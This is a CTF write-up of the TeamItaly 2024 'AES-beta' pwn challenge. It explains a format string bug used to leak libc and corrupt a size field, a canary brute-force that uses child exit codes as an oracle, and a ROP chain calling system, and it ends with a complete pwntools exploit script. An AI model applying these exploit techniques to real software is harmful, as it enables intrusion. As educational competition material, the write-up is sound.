




# TeamItaly Preselection CTF 2024

## [pwn] AES-beta (0 solves)

Is your encryption solution too slow?! We got what you need!  
Asynchronous Encryption Service, is the future of fast encryption!  
Try our beta version now!

`nc aesbeta.challs.external.open.ecsc2024.it 1337`

Author: Nalin Dhingra <@Lotus>

## Overview

The archive of the challenge provides the following files:

- `aes-beta` - the binary of the challenge
- `glibc/` a directory containing the glibc used by the challenge (with symbols)
- `docker-compose.yml` - the docker-compose file used to deploy a local instance
of the challenge

The executable file is compiled with all standard protections enabled:



The executable provides a service which asks the users for a 8-bytes key and the
maximum number of blocks of a message to encrypt (this cannot be greater than
8). It will then print out the given key for confirmation and start looping in a
three options menu:



The user values will be saved in a struct that looks like this:

```c
#define MAX_N_BLOCKS 8U
#define BLOCK_SIZE 8U
#define KEY_SIZE 8U

struct ctx_data {
    unsigned int n_blocks;
    char key[KEY_SIZE];
};
```

### Encryption

The encryption action will find a free slot in a global array that stores the
PIDs of the child processes that perform the actual encryption. If it finds a
slot, it will prepare input and output pipes to communicate with the child and
ask the user for a size which is validated to be less than `ctx->n_blocks *
BLOCK_SIZE`.
Once the size is validated it will fork a child which will wait for the input
coming from the pipe, it will then call a function `encrypt`, write the
result of the encryption to the output pipe and exit.
The parent will instead read the message from the user, send it to the child
and, after printing the PID of the child to the user, it will return from the
function, waiting for the next user action.  
The actual encryption function has the following signature:

```c
void encrypt(struct ctx_data *ctx, char *message, size_t count);
```

It will allocate on the stack a buffer of size `BLOCK_SIZE * MAX_N_BLOCKS` and
perform a simple XOR encryption between the message and the key.

### Fetching the encrypted message

The fetch action will ask the user for the PID of the child process that he
wants to retrieve the encrypted message from. It will look for the PID and if
found it will execute the system call `waitpid` with the option `WNOHANG` to
guarantee the asynchronous nature of the service. If the child is still running
it will say so, otherwise it will read from the pipe the encrypted message and
print it along with the exit status code of the child.

### Vulnerability

The vulnerability should be easy to spot: when the program prints the user's key
it will use a raw `printf` without any format string, providing a classic format
string vulnerability.

## Solution

The format string vulnerability cannot be exploited directly to obtain arbitrary
read or write, since it is a one time use and the key buffer is only 8 bytes
long, which is not enough to use the `%n` format specifier to write to an
arbitrary address. Moreover the key buffer is in in the `struct ctx_data` which
is allocated on the heap, ensuring that it cannot be possible to obtain
arbitrary write by crafting pointers on the stack.

The exploitation idea is to use the format string to corrupt the `n_blocks`
field in the `struct ctx_data`, after it has been validated. This will
consequently allow us to send a message of size greater than `MAX_N_BLOCKS *
BLOCK_SIZE` causing a buffer overflow in the `encrypt` function.

### Leaking libc address

The format string can be used to leak an address from libc and corrupt the
aforementioned field at the same time. If we place a breakpoint with **GDB** the
`printf` function call we can see the following layout of the stack:


So we can use the following key: `"%9$p%7$n"` which will leak the address of
libc and write the value 14 to the `n_blocks` field, triggering the buffer
overflow mentioned above.

### Leaking the stack canary

The overflow will be first used to leak the stack canary through the fetch
functionality by using the status code of the child process as an oracle.
This is a well known technique that works because the child process will abort
returning an error code different from 0 if the canary is corrupted.
We can therefore carefully overflow one byte at a time, checking the status
code, if it is equal to 0 we can assume that the we have found the correct byte
and therefore reconstruct the canary value.

### Arbitrary code execution

Once the canary is leaked, we can craft a ROP chain to execute arbitrary shell
commands and read the flag. There are several ways to achieve this, my solution
is a simple **4 qword ROP chain** that will call `system` with the address of the
input buffer (on the heap) as the argument, allowing us to execute arbitrary
code on the shell.

One important note to make is that the we don't have direct access to child's
stdin, meaning we cannot simply execute `/bin/sh` because we won't be able to
send commands to it. Luckily the child process performs a `dup2` call on the
pipe's file descriptors to remap them to `stdin` and `stdout`. This means that a
command like `cat flag` will write the flag to the pipe which will be then
fetched and printed out by the parent process.

These are gadgets I use in the **ROP chain**:

```python
# mov rdi, [rsp+0x10]; mov rdx, rbp; mov rsi, r12; call rbx;
MOV_RDI_RSP0X10_CALL_RBX = 0x00043817
# pop rbx; ret;
POP_RBX = 0x001bbbc3
```

If we look at the context of the child when returning from the `ecrypt` function
we can see why these work:



The highlighted pointer is the one I was mentioning above which will be at `[rsp+0x10]`
when the gadget will be executed.

#### Notes

For those of you watching carefully you might have noticed that `rsi` contains
the pointer on the stack to the encrypted message (which of course we control),
and may have thought to use that with easier gadgets. The problem is that
calling any function will make it reclaim the stack space, eventually
overwriting our controlled input. Therefore to have a reliable exploit I chose
to use the heap pointer instead.

## Exploit

```python
```python
#!/bin/env python3

from pwn import *

#
# INIT
#
libc = ELF(os.path.join(os.path.dirname(__file__), "glibc/libc.so.6"), False)

#
# UTILS
#
KEY = b"%9$p%7$n"
# GADGETS
MOV_RDI_RSP0X10_CALL_RBX = 0x00043817   # mov rdi, [rsp+0x10]; mov rdx, rbp; mov rsi, r12; call rbx;
POP_RBX = 0x001bbbc3                    # pop rbx; ret;

#
# FUNCTIONS
#
def encrypt(msg):
    cip_msg = b""
    for i in range(len(msg)):
        cip_msg += (msg[i] ^ KEY[i % len(KEY)]).to_bytes(1, "little")
    return cip_msg

def add_msg(msg):
    assert type(io) == process or type(io) == remote
    msg = encrypt(msg)
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"size: ", str(len(msg)).encode())
    io.sendafter(b"message: ", msg)
    io.recvuntil(b"PID: ")
    return int(io.recvline().strip())

def get_msg(pid):
    assert type(io) == process or type(io) == remote
    while True:
        io.sendlineafter(b"> ", b"2")
        io.sendlineafter(b"PID: ", str(pid).encode())
        test = io.recv(1)
        if test == b"P":
            sleep(0.01)
            continue
        io.recvuntil(b": ")
        status = int(io.recvline().strip())
        # io.recvline()
        io.recvuntil(b"text:\n")
        ct = io.recvline().strip()
        break
    return status, ct


#
# EXPLOIT
#
def main(HOST, PORT):
    global io
    io = remote(HOST, PORT)

    POW_BYPASS = '3db1d47076b64cc30a2a8de68ee10e99'

    io.sendlineafter(b"Result:", f"99:{POW_BYPASS}".encode())

    io.sendafter(b"key: ", KEY)
    io.sendlineafter(b"blocks: ", b"8")
    io.recvline()
    libc.address = int(io.recvline().strip(), 16) - 0x29d90
    success(f"libc base: {hex(libc.address)}")

    # Bruteforce the stack canary
    # NOTE: This bruteforse approach is optimized for local testing, when
    # running, the exploit remotely is better to use a synchronous approach.
    canary = b"\x00"
    while len(canary) < 8:
        pids = []
        for i in range(256):
            payload = b"A" * (8 * 9)
            payload += canary + p8(i)
            pids.append((i, add_msg(payload)))
        for i, pid in pids:
            status, _ = get_msg(pid)
            if status == 0:
                canary += p8(i)

    canary = u64(canary.ljust(8, b"\x00"))
    success(f"canary: {hex(canary)}")

    # Send ROP chain
    payload = b"cat flag\x00"
    payload = encrypt(payload)
    payload = payload.ljust(8 * 9, b"\x00")
    payload += p64(canary)
    payload += b"B" * 8
    payload += p64(libc.address + POP_RBX)
    payload += p64(libc.sym.do_system)
    payload += p64(libc.address + MOV_RDI_RSP0X10_CALL_RBX)
    pid = add_msg(payload)
    sleep(2)
    _, ciphertext = get_msg(pid)
    flag = ciphertext[len(payload):]
    return flag.decode()


if __name__ == "__main__":
    sys.exit(main("aesbeta.challs.olicyber.it", 38310))`
```


